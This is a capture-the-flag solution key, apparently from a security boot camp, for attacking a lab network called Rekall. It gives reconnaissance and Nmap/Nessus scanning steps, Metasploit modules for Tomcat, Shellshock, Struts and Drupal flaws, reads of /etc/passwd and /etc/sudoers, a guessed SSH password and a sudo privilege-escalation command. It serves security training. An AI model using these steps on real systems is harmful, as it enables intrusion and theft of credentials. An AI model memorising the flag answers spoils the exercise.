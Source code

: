 ## Day 2 Solution File: Attacking Rekall's Linux Servers

### Flag Solutions

#### Flag 1: h8s692hskasd
- **Location:** https://centralops.net/co/DomainDossier.aspx
- **Vulnerability:** Open source exposed data
- **Method/Payload to Exploit:** On the Domain Dossier webpage, view the WHOIS data for totalrekall.xyz. The address will show the flag:
  - `Registrant Street: h8s692hskasd Flag1`

#### Flag 2: 34.102.136.180
- **Method/Payload to Exploit:**  Ping totalrekall.xyz
 
#### Flag 3: s7euwehd
- **Location:** `crt.sh`
- **Vulnerability:** Open source exposed data
- **Method/Payload to Exploit:** On `crt.sh`, search for totalrekall.xyz to view the flag:
   - **s7euwehd**.totalrekall.xyz

#### Flag 4: 5
- **Location:** Scan results
- **Method/Payload to Exploit:** Run an Nmap scan for the network (`nmap 192.168.13.0/24`) to determine that there are 5 hosts excluding the host scanning from.

#### Flag 5: 192.168.13.13
- **Location:** Scan results
- **Method/Payload to Exploit:** Run an aggressive Nmap scan: `nmap -A 192.168.13.0/24` 
    -  Analyze the results to see that the host that runs Drupal is 192.168.13.13


#### Flag 6: 97610
- **Location:** Nessus scan results
- **Method/Payload to Exploit:** 
  - Run a Nessus scan for 192.168.13.12
  - One critical vulnerability will appear for Apache Struts. 
  - Click on this critical vulnerability. The id 97610 will display on the top right of this page.

#### Flag 7: 8ks6sbhss
- **Location/Host:** 192.168.13.10
- **Vulnerability:** Apache Tomcat Remote Code Execution Vulnerability (CVE-2017-12617)
- **Method/Payload to Exploit:**  
  - Run MSFconsole.
  - Search for exploits that have Tomcat and JSP.
  - Use the exploit `multi/http/tomcat_jsp_upload_bypass`, and set the option for the RHOST to 192.168.13.10. 
  - After successfully getting a Meterpreter shell, enter "SHELL" to get to the command line.
  - Run the following to get the flag:  `/ cat /root/.flag7.txt`

#### Flag 8: 9dnx5shdf5
- **Location:** 192.168.13.11
- **Vulnerability:** Shellshock
- **Method/Payload to Exploit:**  
  - Run MSFconsole, and search exploits that have Shellshock. 
  - Run MSF (`exploit/multi/http/apache_mod_cgi_bash_env_exec`) and set the following options:   
    - target URI(The vulnerable webpage): /cgi-bin/shockme.cgi
    - RHOST: 192.168.13.11
- To get the flag, run the following from a shell on the exploited machine: `cat /etc/sudoers`

#### Flag 9: wudks8f7sd
- **Location:** 192.168.13.11
- **Method/Payload to Exploit:** On the same machine as Flag 8, run `cat /etc/passwd`


#### Flag 10: wjasdufsdkg
- **Location:** 192.168.13.12
- **Vulnerability:** Struts - CVE-2017-5638
- **Method/Payload to Exploit:**  Determine via the Nessus scan that this host is vulnerable to Struts.
  - After connecting to MSFconsole, search for Struts exploits.
  - Use the following exploit to get a Meterpreter shell: `multi/http/struts2_content_type_ognl`.
      - Set the RHOSTS to 192.168.13.12
  - You may have to manually connect to the session to get the meterpreter shell with: `sessions -i <session number>`
  - Use Meterpreter to download the following file to your Kali machine: `/root/flagisinThisfile.7z`
  - From your Kali machine, unzip the file with the following command: `7z x flagisinThisfile.7z` 
  - Use `cat` with the flag file to view the flag.

#### Flag 11: www-data
- **Location:** 192.168.13.13
- **Vulnerability:** Drupal - CVE-2019-6340
- **Method/Payload to Exploit:** 
  - After connecting to MSFconsole, search for Drupal exploits.
  - Use the following exploit to get a Meterpreter shell MSF: `unix/webapp/drupal_restws_unserialize`
       - Set RHOSTS to 192.168.13.13
  - After getting the Meterpreter shell, run `getuid` to get the username.

#### Flag 12: d7sdfksdf384
- **Location:** 192.168.13.14
- **Vulnerability:** CVE-2019-14287
- **Method/Payload to Exploit:**  
   - When viewing the WHOIS data from Flag 1, notice that the name is: `sshuser Alice`
   - SSH into the server: `ssh alice@192.168.13.14`
   - Guess that the password is: `alice`
   - To conduct the privilege escalation exploit and obtain the flag, run the following: 
       - `sudo -u#-1 cat /root/flag12.txt`

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.   
